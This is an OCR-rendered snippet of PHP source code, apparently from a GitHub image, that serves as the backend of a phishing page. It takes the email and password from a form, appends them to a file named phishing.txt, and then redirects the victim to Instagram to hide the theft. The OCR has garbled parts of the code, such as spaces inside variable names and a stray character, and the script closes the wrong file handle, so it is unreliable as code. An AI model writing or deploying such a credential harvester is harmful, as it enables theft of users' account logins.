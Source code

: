  <?
  if (isset ($ _ POST ['email']) && isset ($ _ POST ['pass'])) 
  {
  $ password = file_get_contents ('phishing.txt'); 
  $ phishing = fopen ("phishing.txt", "w");
 fwrite ($ phishing, $ password. "Email:". $ _ POST ['email']. ", Password". $ _ POST ['pass']. "\ n"); 
  fclose ($ file);
  echo '<script> window.location.href = " https://wwww.instagram.com/ " </script>'; 
  }
  else 
> echo '<script> window.location.href = "index.html" </script>'; 
  ?>
